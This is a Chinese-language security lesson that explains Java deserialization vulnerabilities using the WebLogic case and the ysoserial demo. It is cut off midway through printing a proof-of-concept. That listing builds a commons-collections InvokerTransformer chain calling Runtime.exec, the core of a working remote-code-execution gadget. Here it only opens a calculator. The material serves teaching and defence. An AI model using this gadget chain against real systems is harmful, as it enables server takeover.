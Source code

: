 你好，我是何为舟。

我们都知道，Java是一种高层级的语言。在Java中，你不需要直接操控内存，大部分的服务和组件都已经有了成熟的封装。除此之外，Java是一种先编译再执行的语言，无法像JavaScript那样随时插入一段代码。因此，很多人会认为，Java是一个安全的语言。如果使用Java开发服务，我们只需要考虑逻辑层的安全问题即可。但是，Java真的这么安全吗？

2015年，Java曾被曝出一个严重的漏洞，很多经典的商业框架都因此受到影响，其中最知名的是 [WebLogic](https://baike.baidu.com/item/weblogic/451978?fr=aladdin)。据统计，在网络中公开的WebLogic服务有3万多个。其中，中国就有1万多个外网可访问的WebLogic服务。因此，WebLogic的反序列化漏洞意味着，国内有1万多台服务器可能会被黑客攻陷，其影响的用户数量更是不可估量的。

你可能要说了，我实际工作中并没有遇到过反序列化漏洞啊。但是，你一定使用过一些序列化和反序列化的工具，比如Fastjson和Jackson等。如果你关注这些工具的版本更新，就会发现，这些版本更新中包含很多修复反序列化漏洞的改动。而了解反序列化漏洞，可以让你理解，Java作为一种先打包后执行的语言，是如何被插入额外逻辑的；也能够让你对Java这门语言的安全性，有一个更全面的认知。

那么，到底什么是反序列化漏洞呢？它究竟会对Java的安全带来哪些冲击呢？遇到这些冲击，我们该怎么办呢？今天我就带你来了解反序列化漏洞，然后一起学习如何防护这样的攻击！

## 反序列化漏洞是如何产生的？

如果你是研发人员，工作中一定会涉及很多的序列化和反序列化操作。应用在输出某个数据的时候，将对象转化成字符串或者字节流，这就是序列化操作。那什么是反序列化呢？没错，我们把这个过程反过来，就是反序列化操作，也就是应用将字符串或者字节流变成对象。

序列化和反序列化有很多种实现方式。比如Java中的Serializable接口（或者Python中的pickle）可以把应用中的对象转化为二进制的字节流，把字节流再还原为对象；还有XML和JSON这些跨平台的协议，可以把对象转化为带格式的文本，把文本再还原为对象。

那反序列化漏洞到底是怎么产生的呢？问题就出在把数据转化成对象的过程中。在这个过程中，应用需要根据数据的内容，去调用特定的方法。而黑客正是利用这个逻辑，在数据中嵌入自定义的代码（比如执行某个系统命令）。应用对数据进行反序列化的时候，会执行这段代码，从而使得黑客能够控制整个应用及服务器。这就是反序列化漏洞攻击的过程。

事实上，基本上所有语言都会涉及反序列化漏洞。其中，Java因为使用范围比较广，本身体积也比较庞大， 所以被曝出的反序列化漏洞最多。下面，我就以Java中一个经典的反序列化漏洞demo [ysoserial](https://github.com/frohoff/ysoserial) 为基础，来介绍一个经典的反序列化漏洞案例，给你讲明白反序列化漏洞具体的产生过程。了解漏洞是怎么产生的，对于你后面理解防护措施也会非常有帮助，所以这里你一定要认真看。

不过，这里也先提醒你一下，这块原理的内容相对比较复杂。我会尽量给你讲解清楚，讲完之后，我也会带着你对这部分内容进行总结、复习。重复记忆可以加深理解，这块内容建议你可以多看几遍。好了，下面我们就来看这个案例！

最终的演示demo的代码如下所示。在macOS环境下运行这段代码，你就能够打开一个计算器。（在Windows环境下，将系统命令open -a calculator修改成calc即可。）注意，这里需要依赖3.2.1以下的commons-collections，最新的版本已经对这个漏洞进行了修复，所以无法重现这个攻击的过程。

```
public class Deserialize {
    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException, NoSuchMethodException {
        Object evilObject = getEvilObject();
        byte[] serializedObject = serializeToByteArray(evilObject);
        deserializeFromByteArray(serializedObject);
    }

    public static Object getEvilObject() throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException {
        String[] command = {"open -a calculator"};

        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        command
                )
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);
```